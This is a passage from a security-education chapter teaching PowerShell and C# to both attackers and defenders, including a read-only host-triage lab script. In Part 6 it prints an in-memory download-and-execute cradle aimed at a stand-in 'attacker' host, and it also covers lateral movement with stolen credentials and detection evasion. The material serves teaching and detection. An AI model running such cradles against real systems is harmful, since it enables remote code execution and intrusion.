





This is Chapter 7 of the Programming for Security series — Notebook 5. The previous chapters gave
you Python, Bash, C, and client-side JavaScript. Those cover Linux hosts, the network, native
binaries, and the browser. This chapter crosses to the other operating system — the one that runs
the overwhelming majority of corporate desktops, domain controllers, and file servers — and the
two languages that own its offensive and defensive tooling: **PowerShell** and **C#**.

If the Linux chapters taught you to think in terms of text streams piped between small programs,
Windows automation asks you to think differently. PowerShell does not pipe text — it pipes **live
.NET objects**, with properties and methods, from one command to the next. That single design
decision is the reason PowerShell is simultaneously the most productive administration language on
Windows and the single most abused tool in every real-world intrusion. C# sits one layer below it:
the compiled, statically typed language of the same .NET runtime, the language that Rubeus,
SharpHound, Seatbelt, Certify, and virtually every modern offensive Windows tool is written in.

You cannot seriously operate on, or defend, a Windows estate without both. A blue-teamer who
cannot read an obfuscated PowerShell one-liner cannot triage the alert in front of them. A red
teamer who cannot drop into C# and P/Invoke a Win32 API cannot get past a mature EDR. This chapter
teaches both from zero, at the depth the reference chapters set, and it weaves the offensive and
defensive angle into every section rather than bolting them on at the end.

Everything here is **lab-scoped and lawful**. You run these tools against a Windows VM you own, in
a lab you built. The point of understanding how offensive .NET tooling is constructed is exactly
what lets you find its artefacts in event logs and memory as a defender — the two skills are the
same knowledge viewed from opposite sides.

## Who This Chapter Is For (and the Map Ahead)

You should be comfortable with the earlier Notebook 5 chapters: variables, functions, loops, and
the idea of a type. You do **not** need any prior Windows administration experience — we start
from "what is a cmdlet" and build to reflective assembly loading and P/Invoke. If you have only
ever used a Linux terminal, the mental shift in Part 2 (objects, not text) is the single most
important idea in the chapter; slow down there.

The map:

- **Parts 1–3** build PowerShell from zero: the shell, cmdlet grammar, and the object pipeline.
- **Parts 4–6** go deep: variables and types, control flow and functions, and PowerShell's direct
  bridge into the entire .NET framework and the Win32 API.
- **Part 7** covers remoting — how PowerShell moves laterally, which is where red team and IR both
  live.
- **Part 8** is the first hands-on lab: a real host-triage collector you can run.
- **Parts 9–11** switch to C#: the CLR and assemblies, P/Invoke into Win32, and how offensive .NET
  tools are actually built and loaded in memory.
- **Part 12** is the second lab: a C# process enumerator via P/Invoke, compiled two ways.
- **Part 13** is the consolidated Detection & Defense Angle — AMSI, logging, CLM, ETW.
- Then **Final Revision**, a **Cheat Sheet**, **Common Pitfalls**, and **Practice Labs**.



## Part 1: What PowerShell Actually Is

PowerShell is two things at once, and confusing them causes most beginner pain:

1. A **shell** — an interactive command line, like `bash`, where you type commands and see output.
2. A **scripting language and automation engine** built on top of the **.NET runtime**.

That second point is the whole story. When you run `bash`, everything you touch is text: commands
emit bytes to stdout, and you slice those bytes with `grep`, `cut`, and `awk`. PowerShell is
fundamentally different. Every command emits **objects** — structured .NET instances with typed
properties and callable methods — and the pipeline passes those objects, not their text
rendering, from one stage to the next. Text only appears at the very end, when PowerShell formats
the final objects for your screen.

There are two distinct products sharing the name, and you must know which you are on:

| Name | Executable | Engine | Versions | Where it lives |
|------|-----------|--------|----------|----------------|
| Windows PowerShell | `powershell.exe` | .NET Framework 4.x | 5.1 (final) | Built into every Windows since 7/2012; `C:\Windows\System32\WindowsPowerShell\v1.0\` |
| PowerShell (Core) | `pwsh.exe` | .NET (Core) 6/7/8 | 7.x | Cross-platform; installed separately; `C:\Program Files\PowerShell\7\` |

**Security relevance:** Windows PowerShell **5.1** is the version that matters most on engagements
and in IR, because it is present on essentially every Windows host by default and cannot be
uninstalled. It is also the version with the richest built-in security telemetry (Script Block
Logging, AMSI, transcription). PowerShell 7 (`pwsh`) is a separate install with its own logging
configuration; attackers sometimes pull it down specifically because a poorly configured estate
logs 5.1 heavily but ignores `pwsh`. As a defender, if you only monitor `powershell.exe` you have
a blind spot named `pwsh.exe`.

Check what you are running:

```powershell
$PSVersionTable
```

```text
Name                           Value
----                           -----
PSVersion                      5.1.19041.4046
PSEdition                      Desktop
BuildVersion                   10.0.19041.4046
CLRVersion                     4.0.30319.42000
WSManStackVersion              3.0
PSRemotingProtocolVersion      2.3
SerializationVersion          1.1.0.1
```

`PSEdition` of `Desktop` means Windows PowerShell (.NET Framework); `Core` means `pwsh`. The
`CLRVersion` line tells you which .NET runtime backs the session — remember it, because C# in
Part 9 targets that same runtime.

## Part 2: Objects, Not Text — the Central Idea

This is the concept that separates people who "know some PowerShell" from people who are fluent.
In Bash, to get the names of the five processes using the most memory, you run `ps`, then pipe its
**text** through `sort`, `head`, and `awk`, praying the column layout does not shift. In
PowerShell you never touch text. You ask each process object for its properties:

```powershell
Get-Process | Sort-Object -Property WorkingSet64 -Descending | Select-Object -First 5 Name, Id, WorkingSet64
```

```text
Name                    Id   WorkingSet64
----                    --   ------------
chrome                4820      734511104
Teams                 6120      512884736
explorer              3344      289423360
MsMpEng               2288      265994240
powershell            9012      147841024
```

`Get-Process` did not print text that the next command re-parsed. It emitted a stream of
`System.Diagnostics.Process` objects. `Sort-Object` sorted them by the **numeric** value of the
`WorkingSet64` property (no fragile column parsing), and `Select-Object` picked three properties
from each. The text you see is generated only at the end.

To see that an object is an object, ask it what it is:

```powershell
Get-Process -Name explorer | Get-Member
```

```text
   TypeName: System.Diagnostics.Process

Name              MemberType     Definition
----              ----------     ----------
Handles           AliasProperty  Handles = Handlecount
Kill              Method         void Kill(), void Kill(bool entireProcessTree)
Modules           Property       System.Diagnostics.ProcessModuleCollection Modules {get;}
Path              Property       string Path {get;}
StartTime         Property       datetime StartTime {get;}
WorkingSet64      Property       long WorkingSet64 {get;}
...
```

`Get-Member` is the single most important discovery command in PowerShell. It tells you the
**TypeName** (here `System.Diagnostics.Process`) and every property and method the object exposes.
The moment you can call `Get-Member` on anything, PowerShell stops being a memorization exercise —
you interrogate objects to learn what they can do.



**Blue team usage:** because output is objects, filtering is exact and scriptable. `Get-Process |
Where-Object { $_.Path -notlike "C:\Windows\*" -and $_.Company -eq $null }` finds unsigned-looking
processes running from unusual paths — a one-line rough triage that would be a brittle `awk`
pipeline on Linux. **Red team usage:** the same object model lets an operator enumerate a host
with precision and no external binaries, which is why "living off the land" with PowerShell is so
attractive — everything you need is already on the box.

## Part 3: Cmdlet Grammar — Verb-Noun, Parameters, Aliases

PowerShell commands are **cmdlets** (pronounced "command-lets"), and they follow a rigid
`Verb-Noun` naming convention: `Get-Process`, `Stop-Service`, `New-Item`, `Set-ItemProperty`,
`Invoke-Command`. The verb comes from an approved list (`Get`, `Set`, `New`, `Remove`, `Invoke`,
`Start`, `Stop`, `Test`, `Export`, `Import`, …), which makes commands guessable. If you want to
read something, the verb is almost always `Get`. To see the approved verbs:

```powershell
Get-Verb | Select-Object Verb, Group | Sort-Object Group
```

Cmdlets take **parameters**, always introduced with a dash:

```powershell
Get-ChildItem -Path C:\Users -Recurse -Filter *.kdbx -ErrorAction SilentlyContinue
```

Here `-Path` takes a value, `-Recurse` and `-ErrorAction` modify behaviour. `-Recurse` is a
**switch** parameter — its presence alone means "on", it takes no value. `-ErrorAction
SilentlyContinue` is a **common parameter** available on every cmdlet; it suppresses the red error
spew when the walk hits a folder you cannot read (extremely common when enumerating another user's
tree). Other universally available common parameters worth knowing:

| Common parameter | Effect |
|------------------|--------|
| `-ErrorAction` | `Stop`, `Continue`, `SilentlyContinue`, `Ignore` — how to react to non-terminating errors |
| `-Verbose` | Emit the cmdlet's verbose stream (great for understanding what a function does) |
| `-WhatIf` | Show what *would* happen without doing it — test destructive commands safely |
| `-Confirm` | Prompt before each action |
| `-OutVariable` | Save output to a variable *and* pass it down the pipeline |

PowerShell also has **aliases** — short names for common cmdlets, several deliberately matching
Unix/DOS habits: `ls`, `dir`, and `gci` all alias `Get-ChildItem`; `cat`/`type`/`gc` alias
`Get-Content`; `?` aliases `Where-Object`; `%` aliases `ForEach-Object`. See them with
`Get-Alias`.

**Security relevance:** aliases are a favourite obfuscation tool. `gps | ? { $_.name -eq 'lsass' }`
is `Get-Process | Where-Object { $_.name -eq 'lsass' }`. Attackers lean on aliases, casing tricks,
and backtick splitting to slip past naive string-matching detections. As a defender you must be
able to expand any alias on sight; `Get-Alias -Definition Where-Object` maps the other direction.

Two more discovery cmdlets complete the trio you will use forever:

```powershell
Get-Command -Noun Service          # every cmdlet whose noun is "Service"
Get-Help Get-Service -Examples     # real usage examples for a cmdlet
Get-Help about_Pipelines           # conceptual "about_" help topics
```

`Get-Command`, `Get-Help`, and `Get-Member` are the three commands that let you learn every other
command without leaving the shell.

## Part 4: Variables, Types & Data Structures

Variables in PowerShell are prefixed with `$` and are **loosely typed by default** but backed by
real .NET types:

```powershell
$name  = "lsass"           # System.String
$pid   = 640               # System.Int32
$procs = Get-Process       # System.Object[] of Process
$now   = Get-Date          # System.DateTime
```

Ask any variable its type with `.GetType()`:

```powershell
$name.GetType().FullName
```

```text
System.String
```

You can **pin** a type by casting, which both validates and converts:

```powershell
[int]$port    = "443"      # string "443" becomes Int32 443
[ipaddress]$ip = "10.0.0.5" # parses into System.Net.IPAddress
[datetime]$d  = "2026-01-15"
```

If the cast cannot succeed (`[int]"notanumber"`) PowerShell throws — useful for input validation
in tooling.

**Collections.** An array is written with commas; you index with `[]` (zero-based, negative
indexes count from the end):

```powershell
$ports = 21,22,80,443,3389
$ports[0]      # 21
$ports[-1]     # 3389
$ports[1..3]   # 22 80 443  (range operator)
$ports.Count   # 5
```

A **hashtable** (dictionary) uses `@{}`:

```powershell
$svc = @{ Name = "WinRM"; Port = 5985; Encrypted = $false }
$svc["Port"]        # 5985
$svc.Encrypted      # False
$svc.Keys           # Name Port Encrypted
```

PowerShell has automatic variables you will meet constantly:

| Variable | Meaning |
|----------|---------|
| `$_` / `$PSItem` | The current object in a pipeline / `ForEach-Object` block |
| `$?` | `$true` if the last command succeeded |
| `$LASTEXITCODE` | Exit code of the last **native** (non-cmdlet) program |
| `$Error` | Array of the most recent errors, `$Error[0]` is newest |
| `$PSVersionTable` | Version/edition info (Part 1) |
| `$env:` | Drive-style access to environment variables (`$env:USERNAME`, `$env:PATH`) |
| `$null` | The null value |
| `$true` / `$false` | Booleans |

**Red team usage:** `$env:USERNAME`, `$env:USERDOMAIN`, and `$env:COMPUTERNAME` are the fastest
"where am I" checks after landing on a host, and none of them spawn a child process (unlike
`whoami.exe`), so they are quieter. **Blue team usage:** an operator dumping `$Error` or clearing
it (`$Error.Clear()`) inside a script is a small tell that they are managing their own footprint.

## Part 5: Operators, Control Flow & Functions

PowerShell comparison operators are **words**, not symbols — a frequent trip-up for people coming
from C or Python, where `>` is comparison. In PowerShell `>` means *redirect to file*. Use:

| Operator | Meaning | Example |
|----------|---------|---------|
| `-eq` / `-ne` | equal / not equal | `$x -eq 5` |
| `-gt` / `-ge` / `-lt` / `-le` | greater/less (or equal) | `$x -gt 1024` |
| `-like` / `-notlike` | wildcard match (`*`, `?`) | `$name -like "svc*"` |
| `-match` / `-notmatch` | **regex** match (sets `$Matches`) | `$s -match '\d{3}-\d{4}'` |
| `-contains` / `-in` | membership in a collection | `445 -in $ports` |
| `-and` / `-or` / `-not` (`!`) | boolean logic | `($a -gt 0) -and ($b -lt 10)` |

Control flow reads like most C-family languages, but the braces and the word-operators matter:

```powershell
if ($port -eq 445) {
    "SMB"
} elseif ($port -in 5985,5986) {
    "WinRM"
} else {
    "other"
}

foreach ($p in $ports) {
    Test-NetConnection -ComputerName 10.0.0.5 -Port $p
}

# The pipeline-native loop — process each object as it arrives:
Get-Process | ForEach-Object { "$($_.Name) uses $([math]::Round($_.WorkingSet64/1MB)) MB" }

$i = 0
while ($i -lt 3) { "attempt $i"; $i++ }
```

Note `$([math]::Round(...))` — a **subexpression** `$( )` inside a double-quoted string, and a
direct call to a static .NET method (`[math]::Round`). More on that .NET bridge in Part 6.

**Functions** package reusable logic. A basic function:

```powershell
function Get-OpenPort {
    param(
        [Parameter(Mandatory)][string]$Target,
        [int[]]$Ports = @(22,80,443,445,3389)
    )
    foreach ($p in $Ports) {
        $r = Test-NetConnection -ComputerName $Target -Port $p -WarningAction SilentlyContinue
        if ($r.TcpTestSucceeded) { [pscustomobject]@{ Target=$Target; Port=$p; Open=$true } }
    }
}

Get-OpenPort -Target 10.0.0.5 -Ports 445,3389
```

```text
Target     Port Open
------     ---- ----
10.0.0.5    445 True
10.0.0.5   3389 True
```

The `param()` block declares typed parameters; `[Parameter(Mandatory)]` forces the caller to
supply `-Target`. Emitting `[pscustomobject]@{...}` produces a clean custom object, so the
function output is itself pipeable and formats as a table — exactly how well-behaved tooling
returns structured results instead of printing strings.

## Part 6: The .NET Bridge — PowerShell's Real Superpower

Everything above is convenience. This part is where PowerShell becomes a weapon. Because
PowerShell **runs on .NET**, it can reach the entire framework class library directly, with no
imports and no compilation. Two syntaxes matter:

**Static members** — `[Namespace.Class]::Method()` or `::Property`:

```powershell
[System.Math]::Sqrt(144)                        # 12
[System.Guid]::NewGuid()                         # a fresh GUID
[System.Net.Dns]::GetHostByName("example.com")   # DNS resolution via .NET
[System.Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("hello"))  # aGVsbG8=
[System.Environment]::OSVersion                  # OS version object
```

**Instances** — `New-Object` or the `[Class]::new()` shorthand:

```powershell
$wc = New-Object System.Net.WebClient
$wc.DownloadString("http://10.0.0.10/payload.txt")

# Modern shorthand:
$sw = [System.Diagnostics.Stopwatch]::new()
$sw.Start()
```

This bridge is why a PowerShell one-liner can do things that look impossible for a "shell":
resolve DNS, open raw sockets, encrypt data, call cryptographic primitives, manipulate the
registry, and reach into the Win32 API — all without any external tool on disk.

**Red team usage — and why defenders care.** The single most historically abused .NET pattern is
in-memory download-and-execute:

```powershell
# Classic (heavily signatured) download cradle — shown so you can RECOGNISE it:
IEX (New-Object Net.WebClient).DownloadString('http://attacker/a.ps1')
```

`IEX` is the alias for `Invoke-Expression`, which runs a string as PowerShell code. Combined with
`WebClient.DownloadString`, it pulls a script from the network straight into memory and executes
it — **nothing is written to disk**, so classic file-based AV never sees a file. This exact
pattern is the reason Microsoft built AMSI (Part 13): the *content* being passed to `IEX` is
scanned at runtime, on the deobfuscated string, regardless of how it arrived. Understanding this
cradle is mandatory for both sides — the operator learns why it is now loud, and the defender
learns the literal string to alert on.

You can also reach the **Win32 API** from PowerShell by compiling a small C# shim on the fly with
`Add-Type` — a technique that foreshadows Part 11:

```powershell
Add-Type @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();
    [DllImport("psapi.dll")]
    public static extern bool EmptyWorkingSet(IntPtr hProcess);
}
"@
[Win32]::EmptyWorkingSet([Win32]::GetCurrentProcess())
```

That `Add-Type` block hands raw C# to the compiler, produces an in-memory assembly, and exposes
its methods as a .NET type you call like any other. The same mechanism that lets an admin trim a
working set lets an operator call `VirtualAlloc`, `CreateThread`, or `OpenProcess`. We build this
out properly in the C# parts.

## Part 7: PowerShell Remoting — Moving Between Hosts

Remoting is how PowerShell reaches other machines, and it is central to both administration and
lateral movement. It runs over **WS-Management (WinRM)**, an HTTP(S)-based protocol, on TCP
**5985** (HTTP) and **5986** (HTTPS). When enabled, you get three primary patterns.



**One-to-one interactive** — like SSH:

```powershell
Enter-PSSession -ComputerName DC01 -Credential (Get-Credential)
# prompt changes to [DC01]: PS C:\>  ... you are now on DC01
Exit-PSSession
```

**One-to-many fan-out** — run one command on many hosts in parallel:

```powershell
Invoke-Command -ComputerName WEB01,WEB02,DB01 -ScriptBlock {
    Get-Service -Name W3SVC | Select-Object MachineName, Status
}
```

**Persistent sessions** — create once, reuse, avoids re-authenticating:

```powershell
$s = New-PSSession -ComputerName DC01 -Credential $cred
Invoke-Command -Session $s -ScriptBlock { whoami }
Invoke-Command -Session $s -ScriptBlock { Get-ADUser -Filter * }  # reuses the runspace
Remove-PSSession $s
```

Objects that come back from a remote host are **deserialized** — they become inert
`Deserialized.System.*` property bags without live methods, because they crossed a process/machine
boundary. That is why `(Invoke-Command … { Get-Process })` gives you readable properties but you
cannot call `.Kill()` on the result locally; you must run the method-call *inside* the scriptblock
on the remote side.

**Red team usage:** `Invoke-Command` with stolen credentials is one of the cleanest lateral-
movement primitives in Windows — it is a legitimate admin feature, uses signed Microsoft binaries,
and its network signature looks like normal management traffic. The host-side artefact is
`wsmprovhost.exe` spawning as a child, and `powershell.exe` connections over 5985/5986. **Blue
team usage:** monitor for `wsmprovhost.exe` as a parent of unusual processes, WinRM connections
from non-admin workstations, and Event ID 4104 (script block logging) on remote runspaces.
Constraining WinRM to jump hosts and requiring HTTPS with certificate auth shrinks this surface
dramatically.

## Part 8: Hands-On Lab — A PowerShell Host-Triage Collector

**Goal.** Build a single, self-contained PowerShell script that a responder (or an operator doing
recon) would run on a Windows host to capture a fast situational snapshot: identity, network,
listening ports, running processes with paths, persistence-relevant autoruns, local admins, and
recent security-relevant events — emitted as structured objects and written to JSON for offline
analysis. This is a realistic first tool and it exercises everything from Parts 1–7.

**Lab setup.** A Windows 10/11 or Server VM you own. Open an **elevated** Windows PowerShell 5.1
prompt (right-click → Run as Administrator) so the event-log and autorun reads succeed. Nothing
here modifies the system — every action is a `Get`.

Create `Invoke-HostTriage.ps1`:

```powershell
#requires -Version 5.1
<#
.SYNOPSIS
    Fast read-only host triage snapshot. Emits one object per section and
    writes a combined JSON report. Lawful use on systems you own/are authorised for.
#>
[CmdletBinding()]
param(
    [string]$OutFile = "$env:USERPROFILE\Desktop\triage_$($env:COMPUTERNAME)_$(Get-Date -f yyyyMMdd_HHmmss).json"
)

function Get-Identity {
    [pscustomobject]@{
        Section   = 'Identity'
        User      = "$env:USERDOMAIN\$env:USERNAME"
        Computer  = $env:COMPUTERNAME
        IsAdmin   = ([Security.Principal.WindowsPrincipal] `
                     [Security.Principal.WindowsIdentity]::GetCurrent()
                    ).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)
        OS        = (Get-CimInstance Win32_OperatingSystem).Caption
        Uptime    = (Get-Date) - (Get-CimInstance Win32_OperatingSystem).LastBootUpTime
    }
}

function Get-NetInfo {
    Get-NetIPAddress -AddressFamily IPv4 |
        Where-Object { $_.IPAddress -ne '127.0.0.1' } |
        ForEach-Object {
            [pscustomobject]@{
                Section   = 'Network'
                Interface = $_.InterfaceAlias
                IP        = $_.IPAddress
                Prefix    = $_.PrefixLength
            }
        }
}

function Get-Listeners {
    Get-NetTCPConnection -State Listen |
        ForEach-Object {
            $p = Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue
            [pscustomobject]@{
                Section = 'Listener'
                Local   = "$($_.LocalAddress):$($_.LocalPort)"
                PID     = $_.OwningProcess
                Process = $p.Name
                Path    = $p.Path
            }
        } | Sort-Object { [int]($_.Local -replace '.*:','') }
}

function Get-SuspectProcs {
    Get-Process -IncludeUserName -ErrorAction SilentlyContinue |
        Where-Object { $_.Path -and $_.Path -notlike "$env:SystemRoot\*" `
                       -and $_.Path -notlike "$env:ProgramFiles\*" } |
        ForEach-Object {
            [pscustomobject]@{
                Section = 'Process'
                Name    = $_.Name
                PID     = $_.Id
                User    = $_.UserName
                Path    = $_.Path
                Company = $_.Company
            }
        }
}

function Get-Autoruns {
    $keys = @(
        'HKLM:\Software\Microsoft\Windows\CurrentVersion\Run',
        'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run',
        'HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce'
    )
    foreach ($k in $keys) {
        if (Test-Path $k) {
            (Get-ItemProperty $k).PSObject.Properties |
                Where-Object { $_.Name -notlike 'PS*' } |
                ForEach-Object {
                    [pscustomobject]@{ Section='Autorun'; Hive=$k; Name=$_.Name; Command=$_.Value }
                }
        }
    }
}

function Get-LocalAdmins {
    Get-LocalGroupMember -Group 'Administrators' -ErrorAction SilentlyContinue |
        ForEach-Object {
            [pscustomobject]@{ Section='LocalAdmin'; Member=$_.Name; Class=$_.ObjectClass }
        }
}

function Get-RecentLogons {
    Get-WinEvent -FilterHashtable @{ LogName='Security'; Id=4624 } -MaxEvents 20 -ErrorAction SilentlyContinue |
        ForEach-Object {
            [pscustomobject]@{
                Section = 'Logon'
                Time    = $_.TimeCreated
                Account = $_.Properties[5].Value
                LogonType = $_.Properties[8].Value
            }
        }
}

Write-Verbose "Collecting..."
$report = @()
$report += Get-Identity
$report += Get-NetInfo
$report += Get-Listeners
$report += Get-SuspectProcs
$report += Get-Autoruns
$report += Get-LocalAdmins
$report += Get-RecentLogons

$report | ConvertTo-Json -Depth 4 | Out-File -FilePath $OutFile -Encoding utf8
Write-Host "[+] Wrote $($report.Count) records to $OutFile" -ForegroundColor Green
$report | Format-Table -AutoSize
```

Run it:

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
.\Invoke-HostTriage.ps1 -Verbose
```

Abridged real output:

```text
VERBOSE: Collecting...
[+] Wrote 41 records to C:\Users\analyst\Desktop\triage_WIN10LAB_20260115_142233.json

Section    User               Computer  IsAdmin OS
-------    ----               --------  ------- --
Identity   WIN10LAB\analyst   WIN10LAB     True Microsoft Windows 11 Pro

Section  Local              PID Process     Path
-------  -----              --- -------     ----
Listener 0.0.0.0:135        980 svchost     C:\Windows\System32\svchost.exe
Listener 0.0.0.0:445          4 System
Listener 0.0.0.0:3389       1420 svchost    C:\Windows\System32\svchost.exe
Listener 0.0.0.0:5985          4 System

Section Name       PID  User             Path                                   Company
------- ----       ---  ----             ----                                   -------
Process updater    7710 WIN10LAB\analyst C:\Users\analyst\AppData\Local\up.exe

Section  Hive                                                      Name    Command
-------  ----                                                      ----    -------
Autorun  HKCU:\Software\Microsoft\Windows\CurrentVersion\Run       up      C:\Users\analyst\AppData\Local\up.exe
```

**Reading the result like an analyst.** Two records correlate into a finding: an unsigned process
named `updater` running from `AppData\Local` (not under `Windows\` or `Program Files\`), plus an
`HKCU\...\Run` autorun pointing at the same binary. That is textbook user-writable-path
persistence — exactly the artefact `Get-SuspectProcs` and `Get-Autoruns` were written to surface.
Listener `0.0.0.0:5985` confirms WinRM is exposed (relevant to Part 7's lateral movement).

**What the lab exercised:** custom objects (Part 5), `Where-Object`/`ForEach-Object` piping
(Part 3), `.NET` calls for the admin check (`[Security.Principal...]`, Part 6), CIM/WMI queries,
registry access via the `HKLM:`/`HKCU:` drives, and event-log parsing. Extend it: add scheduled
tasks (`Get-ScheduledTask`), services with non-standard binary paths, and unquoted service-path
detection.

## Part 9: Crossing to C# — the CLR, Assemblies & the .NET Runtime

PowerShell was interpreted convenience. **C#** is the compiled, statically typed language of the
same runtime, and it is what serious offensive Windows tooling is written in. To understand why,
you need the runtime model.

C# source (`.cs`) is compiled not to native machine code but to **Common Intermediate Language
(CIL/MSIL)** — a CPU-independent bytecode — packaged into an **assembly**, a `.dll` or `.exe` in
**PE** (Portable Executable) format with a .NET metadata header. At run time the **Common Language
Runtime (CLR)** loads the assembly and its **JIT** (just-in-time) compiler translates the CIL into
native instructions for the actual CPU, on demand, method by method.



Key consequences for security work:

- **CIL is decompilable.** Because assemblies carry rich metadata and platform-independent
  bytecode, tools like **dnSpy**, **ILSpy**, and **dotPeek** reconstruct near-original C# source.
  This is why malware analysts love .NET malware and why offensive developers obfuscate their
  assemblies. Native C from Chapter 5 does not decompile nearly so cleanly.
- **Assemblies can be loaded from memory.** The CLR exposes `System.Reflection.Assembly.Load(byte[])`,
  which loads an assembly straight from a byte array — never touching disk. This single API is the
  foundation of "fileless" .NET tradecraft (Part 11) and Cobalt Strike's `execute-assembly`.
- **The same runtime backs PowerShell.** Windows PowerShell *is* a .NET Framework application. A C#
  assembly you compile against .NET Framework 4.x runs in the same CLR that `powershell.exe`
  hosts — which is exactly why `Add-Type` (Part 6) works and why offensive tools ship as both a
  standalone `.exe` and a reflectively-loadable assembly.

C# fundamentals, mapped from what you already know:

```csharp
using System;                 // like a PowerShell module / Python import

namespace Recon               // logical grouping
{
    class Program             // C# code lives in classes
    {
        static void Main(string[] args)   // entry point
        {
            string user = Environment.UserName;   // same .NET class you used in PS!
            int     pid = System.Diagnostics.Process.GetCurrentProcess().Id;

            Console.WriteLine($"Running as {user}, PID {pid}");   // $"" = string interpolation
        }
    }
}
```

Notice `Environment.UserName` and `Process.GetCurrentProcess()` — the **exact same .NET classes**
you called from PowerShell in Part 6. PowerShell and C# are two front-ends to one framework. Once
you know the .NET class library from PowerShell, you already know most of C#'s standard library.

Compile it (Windows PowerShell ships the .NET Framework compiler `csc.exe`):

```powershell
& "$env:WINDIR\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /out:recon.exe Program.cs
.\recon.exe
```

```text
Microsoft (R) Visual C# Compiler ...
Running as WIN10LAB\analyst, PID 8124
```

## Part 10: Types, Structs & Marshalling — Enough C# to Call Win32

Offensive C# is mostly about calling the **Win32 API** — the native C functions exported by
`kernel32.dll`, `advapi32.dll`, `ntdll.dll`, and friends. Those functions speak C, not .NET, so
you need to know how C# represents data at the byte level to hand it across the boundary. Three
building blocks matter.

**Value types vs reference types.** A `struct` is a value type (lives inline, copied by value,
like a C `struct`); a `class` is a reference type (lives on the managed heap, passed by
reference). Win32 structures like `PROCESS_INFORMATION` or `STARTUPINFO` are declared as C# structs
so their memory layout matches the native side.

**Blittable types and layout.** For a struct to cross into native code unchanged, its fields must
be *blittable* (identical managed and native representation: `int`, `byte`, `IntPtr`, fixed arrays).
You control layout with attributes:

```csharp
using System.Runtime.InteropServices;

[StructLayout(LayoutKind.Sequential)]
struct PROCESSENTRY32
{
    public uint   dwSize;
    public uint   cntUsage;
    public uint   th32ProcessID;
    public IntPtr th32DefaultHeapID;
    public uint   th32ModuleID;
    public uint   cntThreads;
    public uint   th32ParentProcessID;
    public int    pcPriClassBase;
    public uint   dwFlags;
    [MarshalAs(UnmanagedType.ByValTStr, SizeConst = 260)]
    public string szExeFile;     // fixed 260-char (MAX_PATH) buffer
}
```

`[StructLayout(LayoutKind.Sequential)]` forces the fields into declared order with native
